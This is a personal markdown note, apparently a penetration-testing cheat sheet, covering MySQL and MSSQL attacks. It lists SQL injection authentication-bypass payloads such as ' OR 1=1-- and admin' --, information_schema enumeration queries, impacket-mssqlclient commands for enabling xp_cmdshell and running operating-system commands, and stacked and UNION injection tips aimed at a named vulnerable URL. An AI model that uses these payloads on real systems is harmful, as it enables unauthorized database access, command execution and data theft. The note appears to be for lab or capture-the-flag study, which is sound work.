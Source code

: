 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[mysql]]  
___

## Description:  


Local

```
mysql -u root -p

mysql -h 127.0.0.1 -u root -p

mysql -h 192.168.101.29 -u root -p

mysql --host=db --user=root --password=root cacti -e "show tables"
```



impacket-mssqlclient sa@10.10.110.58 

Command injection with impacket
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd



I could not use sudo for remote (locally remove the -h flag):


```
mysql -h 192.168.101.29 -u root -p

Show databases;

Use Users;

Show tables;

Select * from users;


```

### mysql Injection

Try:

```
‘ OR 1=1--

```
If there is filtering going on try alternates like:

```
'||1=1#
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
'*'

```
### Getting User defined Tables
`SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

### Getting Column Names
`SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'

### ping check

`EXEC master.dbo.xp_cmdshell 'ping '


### mysql injection

vulnerable webpage: http://192.168.209.43:8080/WorkOrder.do?woMode=viewWO&woID=1

add ); to stack queries

add ' union for union injections





___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
